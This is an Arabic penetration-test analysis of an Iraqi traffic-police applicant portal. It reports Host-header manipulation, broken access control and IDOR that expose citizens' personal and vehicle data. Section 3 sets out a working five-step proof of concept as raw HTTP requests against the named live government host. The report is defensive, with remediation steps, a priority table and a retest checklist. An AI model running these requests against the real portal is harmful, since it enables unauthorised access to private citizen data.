

# تقرير تحليل اختبار الاختراق
## بوابة المراجعين — المرور العراقي

| البند | القيمة |
|-------|--------|
| **الموقع المختبر** | `applicants.itp.moi.gov.iq` |
| **البروتوكول / المنفذ** | HTTPS — 443 |
| **تاريخ الاختبار** | 13/8/2026 |
| **التصنيف العام** | **حرج (Critical)** |
| **عدد الثغرات الحرجة** | 2 (مرتبطتان بسلسلة هجوم واحدة) |

---

## 1. الملخص التنفيذي

أظهر تقييم الأمان لبوابة المراجعين التابعة للمرور العراقي وجود **ثغرات أمنية حرجة** تؤثر مباشرة على سرية بيانات المواطنين وعزل حساباتهم. يستطيع أي مهاجم على الإنترنت — دون صلاحيات إدارية — إنشاء حساب، تسجيل الدخول، ثم **قراءة بيانات مواطنين آخرين** تشمل الأسماء وأرقام الهواتف ومعلومات الطلبات وأرقام المركبات.

**السبب الجذري:** تعديل رأس `Host` في طلب HTTP للوصول إلى خوادم Backend داخلية (`prod-bapplicants.itpmoi-prod.local`) عبر المضيف العام (`beapplicants.itp.moi.gov.iq`) دون رفض من الخادم، يليه **فشل في التحقق من الصلاحيات** على مستوى البيانات (Broken Access Control و IDOR).

**التوصية الإدارية:** معاملة النتائج كحادث أمني **P0** يتطلب تدخلاً فورياً من فريق البنية التحتية وفريق التطبيق معاً، ثم إعادة اختبار شامل قبل إعلان إغلاق الحادث.

---

## 2. الثغرات المكتشفة

### 2.1 تعديل رأس Host وكسر التحكم بالوصول (Critical)

| البند | التفاصيل |
|-------|----------|
| **الاسم** | Host Header Manipulation and Broken Access Control — Unauthorized Access to Applicants' Data |
| **OWASP** | A05:2021 Security Misconfiguration · A01:2021 Broken Access Control |
| **CVSS تقديري** | 9.0 – 9.8 |

**الوصف:** النظام يوجّه الطلبات داخلياً إلى `prod-bapplicants.itpmoi-prod.local`، لكن تغيير قيمة `Host` إلى `beapplicants.itp.moi.gov.iq` يسمح بالوصول إلى واجهات Backend للتسجيل والمصادقة. الخادم يعالج الطلبات دون رفضها، فيُنشأ حساب Applicant جديد ويُحصل على JWT صالح، ثم يُستخدم لاسترجاع سجلات تخص مستخدمين آخرين.

**نقاط النهاية المتأثرة:**

```
POST /api/applicant/v1/auth/confirm-phone-number-send-otp
POST /api/applicant/v1/auth/signup
POST /api/applicant/v1/auth/login
POST /api/applicant/v1/registrations/search
GET  /api/applicant/v1/requests/{requestId}
```

**التأثير:**
- كشف بيانات شخصية (أسماء، أرقام هواتف) لمواطنين آخرين
- كشف معلومات المركبات (أرقام لوحات وبيانات تسجيل)

---

### 2.2 الوصول غير المصرّح به لطلبات مواطنين آخرين — IDOR (Critical)

| البند | التفاصيل |
|-------|----------|
| **الاسم** | Unauthorized Access to Other Applicants' Requests |
| **OWASP** | A01:2021 Broken Access Control |
| **CVSS تقديري** | 9.0 – 9.8 |

**الوصف:** تمرير `requestId` مختلف إلى `GET /api/applicant/v1/requests/{requestId}` يُرجع تفاصيل طلبات مواطنين آخرين دون التحقق من أن الطلب يعود للمستخدم الحالي. كذلك `POST /api/applicant/v1/registrations/search` مع body `{}` يُرجع سجلات مركبات **جميع** المستخدمين.

**الفرق الحاسم:** النظام يتحقق من **المصادقة** (JWT صالح) ويفشل في **التفويض** (هل للمستخدم حق قراءة هذه البيانات؟).

---

## 3. سلسلة الهجوم



### خطوات إثبات المفهوم (POC)

**1 — إرسال OTP للتحقق من رقم الهاتف**
```http
POST /api/applicant/v1/auth/confirm-phone-number-send-otp HTTP/1.1
Host: beapplicants.itp.moi.gov.iq
Content-Type: application/json
Tz: Asia/Baghdad
X-Digital-Channel: 2

{"phoneNumber": "07XXXXXXXXX", "model": "Web"}
```

**2 — إنشاء حساب مراجع جديد**
```http
POST /api/applicant/v1/auth/signup HTTP/1.1
Host: beapplicants.itp.moi.gov.iq
Content-Type: application/json
Tz: Asia/Baghdad
X-Digital-Channel: 2

{
  "userName": "testbughunter1",
  "password": "Test@12345678",
  "givenName": "Test",
  "fatherName": "Bug",
  "grandFatherName": "Hunter",
  "surName": "One",
  "phoneNumber": "07XXXXXXXXX"
}
```

**3 — تسجيل الدخول والحصول على JWT**
```http
POST /api/applicant/v1/auth/login HTTP/1.1
Host: beapplicants.itp.moi.gov.iq
Content-Type: application/json
Tz: Asia/Baghdad
X-Digital-Channel: 2

{"userName": "testbughunter1", "password": "Test@12345678"}
```

**4 — البحث في جميع سجلات المركبات (Broken Access Control)**
```http
POST /api/applicant/v1/registrations/search HTTP/1.1
Host: beapplicants.itp.moi.gov.iq
Content-Type: application/json
Authorization: Bearer <token>
Tz: Asia/Baghdad
X-Digital-Channel: 2

{}
```

**5 — الوصول لبيانات مواطن آخر عبر requestId (IDOR)**
```http
GET /api/applicant/v1/requests/{requestId} HTTP/1.1
Host: beapplicants.itp.moi.gov.iq
Authorization: Bearer <token>
Tz: Asia/Baghdad
X-Digital-Channel: 2
```

---

## 4. تقييم التأثير

| البعد | التقييم | التفاصيل |
|-------|---------|----------|
| **السرية** | عالي جداً | PII لمواطنين متعددين: أسماء، هواتف، طلبات، مركبات |
| **النزاهة** | متوسط | إنشاء حسابات وهمية؛ خطر تعديل إن وُجدت endpoints كتابة |
| **التوفر** | منخفض | غير مباشر |
| **قابلية الاستغلال** | عالية | لا يتطلب مهارات متقدمة |
| **الامتثال / القانوني** | حرج | انتهاك خصوصية بيانات مواطنين — جهة حكومية |

---

## 5. التوصيات

### 5.1 البنية التحتية (Host / Network)

- رفض أي طلب لا يطابق قائمة `Host` / `X-Forwarded-Host` المسموحة على Gateway و Backend
- جعل Backend (`prod-bapplicants.itpmoi-prod.local`) **internal-only** — لا وصول مباشر من الإنternet
- استخدام `server_name` صارم في Nginx / IIS / Apache
- Firewall rules تمنع الوصول المباشر لمنفذ Backend
- WAF rules لرؤوس Host غير المتوقعة

### 5.2 التطبيق (Authorization)

- **Object-level authorization** على `GET /requests/{requestId}`: التحقق أن `request.ownerId == jwt.sub`
- فلترة `POST /registrations/search` حسب `userId` من JWT — منع `{}` كـ "fetch all"
- مراجعة **جميع** endpoints لنفس نمط BAC / IDOR
- Rate limiting على OTP / signup / login
- Logging و alerting لمحاولات Host manipulation و IDOR

### 5.3 ما يقترحه التقرير الأصلي

- تقييد الوصول إلى Backend APIs ومنع الوصول المباشر من الإنternet
- السماح فقط عبر Reverse Proxy / API Gateway والمسارات المرصح بها

---

## 6. جدول أولويات المعالجة

| الأولوية | الإجراء | المسؤول |
|----------|---------|---------|
| **P0 — فوري** | رفض أي `Host` غير مسموح على Gateway و Backend | البنية التحتية |
| **P0 — فوري** | عزل Backend — internal-only | الشبكات / DevOps |
| **P0 — فوري** | إصلاح IDOR: التحقق من ملكية `requestId` | Backend |
| **P0 — فوري** | إصلاح BAC: فلترة `registrations/search` حسب JWT | Backend |
| **P1 — عاجل** | مراجعة جميع endpoints لنفس النمط | Backend + QA |
| **P1 — عاجل** | Rate limiting على signup / login / OTP | Backend + Gateway |
| **P1 — عاجل** | WAF rules لـ Host manipulation | الأمن / DevOps |
| **P2 — مهم** | Logging و alerting | SOC / DevOps |
| **P2 — مهم** | Retest شامل بعد الإصلاح | فريق الاختبار |
| **P3 — تحسين** | SAST / DAST في CI/CD | DevSecOps |

---

## 7. Checklist التحقق بعد الإصلاح

### البنية التحتية
- [ ] طلب بـ `Host: beapplicants.itp.moi.gov.iq` إلى Backend الداخلي يُرفض (4xx)
- [ ] طلب بـ `Host` عشوائي يُرفض
- [ ] Backend غير reachable مباشرة من الإنternet
- [ ] `server_name` / virtual host محدّد صراحة
- [ ] Firewall rules تمنع الوصول المباشر

### المصادقة
- [ ] signup / login / OTP تعمل فقط عبر المسار العام المصرّح
- [ ] Rate limiting على OTP و login
- [ ] JWT يحتوي claims صحيحة (`sub`, `role`, expiry)

### التفويض
- [ ] `GET /requests/{requestId}` لطلب لا يخص المستخدم → 403 Forbidden
- [ ] `GET /requests/{requestId}` لطلب يخص المستخدم → 200 OK ببياناته فقط
- [ ] `POST /registrations/search` مع `{}` → سجلات المستخدم الحالي فقط
- [ ] enumeration لـ `requestId` متسلسل لا يكشف بيانات غيره
- [ ] كل endpoint يتحقق من Object-level authorization

### Defense in Depth
- [ ] WAF يسجّل / يحظر Host manipulation
- [ ] Alerts عند محاولات IDOR متكررة
- [ ] Retest كامل من فريق الاختبار الأصلي

### اختبارات إضافية
- [ ] endpoints كتابة (PUT / PATCH / DELETE) لنفس ثغرات BAC / IDOR
- [ ] JWT manipulation (تغيير `sub`, algorithm none, expiry)
- [ ] mass assignment في signup / search

---

## 8. الخلاصة

التقرير يكشف **سلسلة هجوم متكاملة** وليس ثغرة منفردة:

1. **Misconfiguration (Host)** → تجاوز العزل بين الطبقات
2. **Broken Access Control** → قراءة سجلات جميع المستخدمين
3. **IDOR** → قراءة طلبات مواطنين محددين

إغلاق Host manipulation وحده **لا يكفي** إذا بقي BAC / IDOR في الكود، وإصلاح الكود وحده **لا يكفي** إذا بقي Backend exposed. يتطلب الإصلاح **تنسيقاً بين البنية التحتية والتطبيق**، ثم retest قبل إعلان إغلاق الحادث.

---

## 9. ملاحظات على التقرير الأصلي

- لا يذكر CVE أو إصدارات برمجيات — الثغرات تكوينية ومنطقية
- POC يعتمد على `X-Digital-Channel: 2` — يستحق التحقق هل هو شرط للاستغلال
- يركز على القراءة — يُفضّل اختبار CRUD كامل بعد الإصلاح

---

*مصدر التحليل: تقرير اختبار الاختراق المرفق — بوابة المراجعين / المرور العراقي — 13/8/2026*
